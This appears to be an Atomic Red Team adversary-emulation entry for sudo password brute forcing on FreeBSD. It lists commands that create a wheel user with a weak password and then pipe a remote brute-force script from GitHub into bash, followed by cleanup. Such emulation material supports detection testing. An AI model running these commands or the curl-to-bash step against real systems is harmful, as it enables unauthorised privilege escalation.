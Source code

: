 


<br/>
<br/>

## Atomic Test #7 - SUDO Brute Force - FreeBSD
An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user. 

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux


**auto_generated_guid:** abcde488-e083-4ee7-bc85-a5684edd7541





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
pw adduser art -g wheel -s /bin/sh
echo "password123" | pw usermod art -h 0
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:
```bash
rmuser -y art
```



#### Dependencies:  Run with `sh`!
##### Description: Check if running on a FreeBSD based machine.
##### Check Prereq Commands:
```sh
if grep -iq "FreeBSD" /etc/os-release; then echo "FreeBSD"; else echo "NOT FreeBSD"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v bash)" ]; then echo "bash is installed"; else echo "bash is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```sh
pkg update && pkg install -y sudo curl bash
```
